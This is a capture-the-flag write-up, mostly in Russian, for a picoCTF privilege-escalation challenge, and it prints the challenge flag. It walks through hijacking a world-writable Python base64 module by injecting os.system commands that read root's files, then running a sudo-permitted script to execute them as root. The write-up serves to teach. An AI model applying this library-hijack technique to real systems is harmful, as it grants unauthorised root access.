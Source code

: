 # hijacking #
Category: Binary Exploitation

 
Score: 200
 
 Original description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
 
# Hints
1. Check for Hidden files

2. No place like Home:)

   
## Solution ##
 
Подключаемся по ssh.

Посмотрим скрытые файлы:

     picoctf@challenge:~$ ls -al
     total 20
     drwxr-xr-x 1 picoctf picoctf   36 Apr  1 10:16 .
     drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
     -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
     -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
     drwx------ 2 picoctf picoctf   34 Apr  1 10:05 .cache
     -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
     -rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
     -rw------- 1 picoctf picoctf  960 Apr  1 10:16 .viminfo

Запустим .server.py

     picoctf@challenge:~$ python3 .server.py
     sh: 1: ping: not found
     Traceback (most recent call last):
     File ".server.py", line 7, in <module>
         host_info = socket.gethostbyaddr(ip) 
     socket.gaierror: [Errno -5] No address associated with hostname

Выдает ошибку.

Посмотрим через cat файлик:

     picoctf@challenge:~$ cat .server.py
     import base64
     import os
     import socket
     ip = 'picoctf.org'
     response = os.system("ping -c 1 " + ip)
     #saving ping details to a variable
     host_info = socket.gethostbyaddr(ip) 
     #getting IP from a domaine
     host_info_to_str = str(host_info[2])
     host_info = base64.b64encode(host_info_to_str.encode('ascii'))
     print("Hello, this is a part of information gathering",'Host: ', host_info) 

Найдём местоположение используемых модулей :

     picoctf@challenge:~$ python3
     Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
     [GCC 9.4.0] on linux
     Type "help", "copyright", "credits" or "license" for more information.
     >>> import sys
     >>> sys.path
     ['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']

Глядя на разрешения base64 модуля внутри /usr/lib/python3.8, мы имеем полный доступ для чтения, записи и выполнения.

     picoctf@challenge:~$ ls -al /usr/lib/python3.8
     -rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

Итак, можно модифицировать импортированный base64 модуль с помощью нашего собственного кода, т.к. весь код в импортированном модуле выполняется при импорте.

Проверим, какие команды можно запускать через sudo :

     picoctf@challenge:~$ sudo -l
     Matching Defaults entries for picoctf on challenge:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
     
     User picoctf may run the following commands on challenge:
     (ALL) /usr/bin/vi
     (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Добавим в начало/lib/python3.8/base64.py через vim следующие строки :

     import os
     os.system('whoami')
     os.system('ls -al /root > /home/picoctf/r.txt')
     os.system('cat /root/.flag.txt')

Запусим .server.py:

     picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
     root
     picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
     sh: 1: ping: not found
     Traceback (most recent call last):
     File "/home/picoctf/.server.py", line 7, in <module>
         host_info = socket.gethostbyaddr(ip) 
     socket.gaierror: [Errno -5] No address associated with hostname


flag: picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}


